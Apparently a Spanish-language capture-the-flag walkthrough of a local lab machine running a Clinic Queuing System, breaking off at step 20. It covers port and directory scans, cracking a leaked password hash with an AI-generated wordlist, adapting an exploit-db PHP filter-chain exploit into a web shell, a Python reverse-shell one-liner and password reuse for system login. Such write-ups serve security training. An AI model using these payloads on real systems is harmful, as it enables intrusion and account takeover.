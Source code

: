 ### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```
![Diagrama del sistema](./ANEXOS/Pasted image 20240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![./ANEXOS/Pasted image 20240925173823.png]
*Al ingresar a la url se carga un formulario de acceso.*

![[Pasted image 20240925180151.png]]
*Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.*

3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.
12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]
13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 
14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]
15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.
16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *
17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]
19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]
	20) 
